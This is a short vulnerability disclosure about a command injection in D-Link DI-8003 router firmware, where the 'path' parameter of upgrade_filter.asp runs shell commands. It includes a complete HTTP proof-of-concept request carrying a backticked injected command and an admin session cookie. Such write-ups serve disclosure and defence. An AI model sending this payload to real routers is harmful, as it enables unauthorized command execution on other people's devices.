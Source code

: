 # DI8003_command_injection

Firmware brand：D-LInk
Firmware download：http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8003

---

# Vulnerability analysis
![](vx_images/517114388770285.png)


Enter the page with a weak password, and then upgrade_filter.asp page path parameter, because the command concatenation, resulting in the execution of the command
![](vx_images/222845725221872.png)

![](vx_images/411367237727821.png)

DI8100.py

```

GET /upgrade_filter.asp?path=http://`ps%20%3E%20/rce.txt` HTTP/1.1

Host: 192.168.0.1

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: zh,en-US;q=0.9,en;q=0.8

Cookie: wys_userid=admin,wys_passwd=861A198CDBD425F0B9D91C42FAB93A86

Connection: close


```